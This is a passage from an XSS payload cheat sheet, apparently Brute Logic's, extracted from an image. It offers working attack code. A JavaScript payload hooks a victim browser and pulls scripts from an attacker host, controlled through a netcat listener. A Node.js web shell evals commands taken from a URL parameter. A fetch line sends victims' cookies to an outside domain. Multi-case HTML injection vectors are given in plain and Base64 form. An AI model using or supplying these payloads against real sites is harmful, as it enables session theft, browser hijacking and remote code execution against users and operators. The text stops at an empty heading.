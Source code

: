 ```


## Browser Remote Control
Use to hook browser and send javascript commands to it interactively. Use the javascript 
code below instead of alert(1) in your injection with an Unix-like terminal open with the 
following shell script (listener). Provide a HOST as a hostname, IP address or domain to 
receive commands from attacker machine.
=> Javascript (payload):
```
setInterval(function(){with(document)body.
appendChild(createElement('script')).src='//HOST:5855'},100)
```

=> Listener (terminal command):
```
$ while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done
```



## Node.js Web Shell 
Use to create a web shell in vulnerable Node.js applications. After running payload below 
use shell in the following way: http://target:5855/?cmd=my_node.js_command 
Example to pop calc: cmd=require('child_process').exec('gnome-calculator').
require('http').createServer(function(req,res){res.end(1-
eval(require('url').parse(req.url,1).query.cmd))}).listen(5855)


## Cookie Stealing
Use to get all cookies from victim user set by target site. It can’t get cookies protected by 
httpOnly security flag. Encode `+` as `%2B` in URLs.
```
fetch('//brutelogic.com.br/?c='+document.cookie)
```




## XSS Online Test Page
Use to practice XSS vectors and payloads. Check source code for injection points.
https://brutelogic.com.br/xss.php
HTML Entities Table


## Use to HTML encode chars.
https://brutelogic.com.br/utils/charref.htm
Multi-Case HTML Injection
Use as one-shot to have higher successful XSS rates. It works in all cases of the HTML context (see Basics section), including the JS one with tag injection. Notice the spaces as failover for simple sanitizing/escaping performed by app.
```
</Script/"'--><Body /Autofocus /OnFocus = confirm`1`  
```


## Multi-Case HTML Injection - Base64 
Use as one-shot to have higher successful XSS rates in Base64 input fields. It works in all 
cases of the HTML context (see Basics section), including the JS one with tag injection.
```
PC9TY3JpcHQvIictLT48Qm9keSAvQXV0b2ZvY3VzIC9PbkZvY3VzID0gY29uZmlybWAxYC
A8IS0tPg==
```


## Vectors for Fixed Input Length
```